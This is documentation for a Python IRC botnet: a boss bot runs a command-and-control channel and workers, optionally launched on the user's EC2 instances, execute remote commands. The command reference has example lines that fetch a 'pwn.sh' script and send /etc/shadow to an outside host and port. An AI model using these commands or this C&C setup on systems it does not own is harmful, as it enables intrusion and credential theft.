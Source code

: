 .. _botnet:

BotNet Help
===========

Quick overview
--------------

The botnet is composed of two components, the boss and any number of workers.
The first step when using the botnet is to start up the boss.

Here is an example::

    python boss.py -c secretbotz -n daboss1 -x qwerty

This will start the boss using "#secretbotz" as the command channel.
The boss will be identified by the nickname "daboss1".  To auth with the boss
you will send it the message ``!auth qwerty``.  The default host is
irc.freenode.net and the default port is 6667, so it will use thoes values.  You
should be able to join #secretbotz using your IRC client and see "daboss1" just
chilling out::

    <cleifer> !auth qwerty
    <daboss1> Success

Next, start up any number of workers.  The workers will need to know the nick
of the command bot so they can register themselves and start accepting tasks::

    python worker.py -b daboss1

Now you should be able to ask daboss1 for some status and see that your worker
has been registered::

    <cleifer> !status
    <daboss1> 1 workers available
    <daboss1> 0 tasks have been scheduled

Let's execute a program on the worker machine::

    <cleifer> !execute run vmstat
    <daboss1> Scheduled task: "run vmstat" with id 1 [1 workers]
    <daboss1> Task 1 completed by 1 workers

What was the output of the command?

::

    cleifer> !print
    <daboss1> [w0rk3r:{alpha}] - run vmstat
    <daboss1> procs -----------memory---------- ---swap-- -----io---- -system-- ----cpu----
    <daboss1> r  b   swpd   free   buff  cache   si   so    bi    bo   in   cs us sy id wa
    <daboss1> 0  0      0 977784 504004 910144    0    0    46    29  103  443  3  1 96  0


The Boss
--------

The Boss is responsible for coordinating a given number of
worker bots.  The Boss is given a channel and a secret password,
when you join that channel and authenticate with the boss, you will
be able to issue commands to the workers::

    <you>  /join #secret-channel
    <you>  !auth my-password
    <boss> Success


Starting the Boss
^^^^^^^^^^^^^^^^^

``python boss.py [options]``

======  ============================ ====================
switch  meaning                      example
======  ============================ ====================
-s      server to connect to         -s irc.freenode.net
-p      port to connect on           -p 6667
-n      nickname to use for boss     -n boss1337
-x      secret used to auth          -x sshhh!
-c      c&c channel                  -c #secret-channel
-f      logfile                      -f /var/log/boss.log
-v      verbosity of logging (0 - 2) -v 1
======  ============================ ====================


The Worker
----------

The Worker is responsible for executing tasks you send to the boss.  The worker
communicates solely with the boss, executing tasks on the local machine and reporting
its results back when finished.  Behind-the-scenes the worker initialization looks
like this:

1. message the boss and ask to register (tries every 30s)
2. upon receiving confirmation, join the C&C channel with the other workers
3. work on tasks issued by the boss via the C&C channel, and report back results


Starting the worker
^^^^^^^^^^^^^^^^^^^

``python worker.py [options]``

======  ============================ ====================
switch  meaning                      example
======  ============================ ====================
-s      server to connect to         -s irc.freenode.net
-p      port to connect on           -p 6667
-n      base nickname for worker     -n worker
-b      nickname of boss *important* -b daboss1
-f      logfile for output           -f /var/log/worker.log
-v      verbosity of output 0 -2     -v 1
======  ============================ ====================


Launching a number of workers using EC2
---------------------------------------

The BotNet comes with a launcher to make it easy to spin up an arbitrary number
of workers using amazon's EC2.  This launcher requires [boto](https://github.com/boto/boto),
the python/aws library.

Example usage::

    # launch 10 workers pointing them at "daboss1"
    python launcher.py --workers=10 --boss=daboss1
    
    # show me the status of my workers
    python launcher.py show
    
    # terminate my workers, I'm done
    python launcher.py terminate

.. note::
    The launcher comes with a bootstrap script and is designed by default to use
    an Ubuntu 10.04 LTS 32-bit AMI in US-East.  The bootstrap script may need to
    be modified slightly if you intend to use a different AMI as the packages
    may be different.


Running the launcher
^^^^^^^^^^^^^^^^^^^^

The launcher takes a number of options, which instruct it which AMI to use, what
size instances to create, number of workers to spawn, etc.  It also takes all the
same parameters the worker takes, and passes those along to the workers it spawns.

===============  ============================   ====================
switch           meaning                        example
===============  ============================   ====================
--workers        number of workers to spawn     --workers=5
--quiet          no output                      --quiet
--script         custom bootstrap script        --script=my-custom-script.sh
--ami            AMI id to use                  --ami=ami-ab36fbc2
--key            AWS access key                 --key=foo
--secret         AWS secret access key          --secret=bar
--type           Instance size                  --type=t1.micro
--key-name       Security pair key name         --key-name=master-key
--group          Security group for instances   --group=default
===============  ============================   ====================


The following switches will be passed on to the workers launched by the launcher:

======  ============================   ====================
switch  meaning                        example
======  ============================   ====================
-s      server to connect to           -s irc.freenode.net
-p      port to connect on             -p 6667
-n      base nickname for worker       -n worker
-b      nickname of boss *important*   -b daboss1
-f      logfile for output             -f /var/log/worker.log
-v      verbosity of output 0 - 2      -v 1
======  ============================   ====================


Issuing commands to the BotNet
------------------------------

The BotNet comes with a number of commands pre-programmed.  Here are the steps for
running commands on your botnet, assuming you started our boss and worker in the following
manner::

    python boss.py -c secretbotz -n daboss1 -x qwerty
    python worker.py -b daboss1

1. Join the channel that you started the boss in and authenticate::

       <you>     /join #secretbotz
       <you>     !auth qwerty
       <daboss1> Success

2. Ask for status::

       <you>     !status
       <daboss1> 1 workers available
       <daboss1> 0 tasks have been scheduled

3. Run a command::

       <you>     !execute run vmstat
       <daboss1> Scheduled task: "run vmstat" with id 1 [1 workers]
       <daboss1> Task 1 completed by 1 workers

4. View result returned by worker::

       <you>     !print
       <daboss1> [w0rk3r:{alpha}] - run vmstat
       <daboss1> procs -----------memory---------- ---swap-- -----io---- -system-- ----cpu----
       <daboss1> r  b   swpd   free   buff  cache   si   so    bi    bo   in   cs us sy id wa
       <daboss1> 0  0      0 977784 504004 910144    0    0    46    29  103  443  3  1 96  0


Command reference
-----------------

==================================  ========================================================
Command                              Meaning
==================================  ========================================================
!auth <password>                     authenticate with the boss
!execute (num workers) <command>     execute the given command (optional, number of workers)
!print (task id)                     print output of tasks or task with id
!stop                                tell workers to stop their current task
!status                              get status on workers and tasks
!uptime                              boss uptime
!help                                display list of commands
==================================  ========================================================


Commands you can execute on workers
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The following commands are available to workers using ``!execute``:

            
``run <program>``
    Run the given program on the worker's host.
    
    Example: ``!execute run vmstat``

``info``
    Get info about the host the worker is running on
    
    Example: ``!execute info``

``download <url>``
    Retrieve a remote file and store it in the working directory
    
    Example: ``!execute download http://my-awesome-script.com/pwn.sh``

``send_file <filename> <destination>``
    Send file at <filename> to given destination (host:port) -- this transers
    the raw data.
    
    Example: ``!execute send_file /etc/shadow some.fileserver.com:9001``

``ports``
    View what ports are open on the workers host
    
    Example: ``!execute ports``

``status``
    Return the workers queue size
    
    Example: ``!execute status``

``get_time <format>``
    Return the localtime from the workers host
    
    Example: ``!execute get_time``

